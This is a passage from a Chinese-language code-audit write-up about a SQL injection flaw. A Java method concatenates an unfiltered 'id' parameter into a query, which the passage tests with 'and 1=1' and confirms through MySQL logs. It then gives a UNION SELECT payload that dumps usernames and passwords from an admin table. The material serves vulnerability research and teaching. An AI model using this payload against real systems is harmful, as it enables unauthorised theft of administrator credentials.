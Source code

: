 ```plain

            return userinfo;
        }
```

可以看到在 sql 语句中，存在着拼接的String类型变量`id`，且没有进行任何的过滤处理，直接带入执行。这也就导致了 SQL 注入，如下图，带入参数`and 1=1`：

[![](assets/1698897408-4716dfb778b3ef852127ffa36f03d837.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129155859-1a033cd4-127e-1.png)

监视 MySQL 的执行记录，如下图所示：

[![](assets/1698897408-975d4e1b17016caca07d9bacfd384688.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129155915-236cdca8-127e-1.png)

完整的把我们带入的参数给传了进去。

执行下述 payload 即可获取管理员的账号密码：

```plain
id=2 union select 1,2,3,group_concat(username),group_concat(password) from admin--
```

[![](assets/1698897408-adaf1c7ab1cdec3c701ffea339ddd1ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129155929-2bcb5c62-127e-1.png)
